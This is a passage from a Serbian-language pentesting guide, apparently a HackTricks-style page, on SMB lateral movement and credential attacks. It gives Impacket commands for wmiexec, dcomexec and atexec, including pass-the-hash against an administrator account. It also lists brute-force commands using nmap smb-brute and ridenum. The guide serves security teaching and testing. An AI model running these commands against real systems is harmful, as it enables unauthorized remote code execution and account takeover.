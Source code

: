 Korišćenjem **parametra** `-k` možete autentifikovati prema **kerberosu** umesto **NTLM-a**

### [wmiexec](../../windows-hardening/lateral-movement/wmicexec.md)/dcomexec

Tajno izvršite komandnu liniju bez dodira sa diskom ili pokretanja novog servisa korišćenjem DCOM-a preko **porta 135.**\
Na **kali** se nalazi na /usr/share/doc/python3-impacket/examples/

```bash
#If no password is provided, it will be prompted
./wmiexec.py [[domain/]username[:password]@]<targetName or address> #Prompt for password
./wmiexec.py -hashes LM:NT administrator@10.10.10.103 #Pass-the-Hash
#You can append to the end of the command a CMD command to be executed, if you dont do that a semi-interactive shell will be prompted
```

Korišćenjem **parametra** `-k` možete se autentifikovati preko **kerberosa** umesto **NTLM**.

```bash
#If no password is provided, it will be prompted
./dcomexec.py [[domain/]username[:password]@]<targetName or address>
./dcomexec.py -hashes <LM:NT> administrator@10.10.10.103 #Pass-the-Hash
#You can append to the end of the command a CMD command to be executed, if you dont do that a semi-interactive shell will be prompted
```

### [AtExec](../../windows-hardening/lateral-movement/atexec.md)

Izvršite komande putem Planera zadataka (koristeći _\pipe\atsvc_ putem SMB-a).\
U **kali** se nalazi na /usr/share/doc/python3-impacket/examples/

```bash
./atexec.py [[domain/]username[:password]@]<targetName or address> "command"
./atexec.py -hashes <LM:NT> administrator@10.10.10.175 "whoami"
```

## Impacket referenca

[https://www.hackingarticles.in/beginners-guide-to-impacket-tool-kit-part-1/](https://www.hackingarticles.in/beginners-guide-to-impacket-tool-kit-part-1/)

## **Bruteforce korisničke akreditive**

**Ovo se ne preporučuje, možete blokirati nalog ako premašite maksimalan dozvoljeni broj pokušaja**

```bash
nmap --script smb-brute -p 445 <IP>
ridenum.py <IP> 500 50000 /root/passwds.txt #Get usernames bruteforcing that rids and then try to bruteforce each user name
```

## Napad preusmeravanja SMB-a

